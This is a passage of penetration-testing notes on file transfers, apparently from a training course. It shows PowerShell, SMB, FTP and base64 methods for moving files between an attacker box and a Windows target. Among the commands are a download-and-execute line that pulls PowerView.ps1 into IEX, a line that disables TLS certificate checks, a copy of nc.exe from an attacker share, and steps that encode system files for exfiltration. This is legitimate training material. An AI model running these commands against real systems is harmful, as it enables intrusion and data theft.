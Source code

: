- `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`

Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:

- `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`

## SMB Downloads
### Create the SMB Server
We can use SMB to download files from our Pwnbox easily. We need to create an SMB server in our Pwnbox with smbserver.py from Impacket and then use copy, move, PowerShell Copy-Item, or any other tool that allows connection to SMB.

- `sudo impacket-smbserver share -smb2support /tmp/smbshare`

### Copy a File from the SMB Server
- `copy \\192.168.220.133\share\nc.exe`

### Create the SMB Server with a Username and Password
- `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`

### Mount the SMB Server with Username and Password
- `net use n: \\192.168.220.133\share /user:test test`

## FTP Downloads
### Setting up a Python3 FTP Server
- `sudo python3 -m pyftpdlib --port 21`

### Transfering Files from an FTP Server Using PowerShell
- `(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')`

# Target to Attack
## PowerShell Base64 Encode & Decode
### Encode File Using PowerShell
- `[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))`
- `Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash`

### Decode Base64 String in Linux 
- `echo = | base64 -d > hosts`
- `md5sum hosts `

## PowerShell Web Uploads
### Installing a Configured WebServer with Upload
- `pip3 install uploadserver`
- `python3 -m uploadserver`
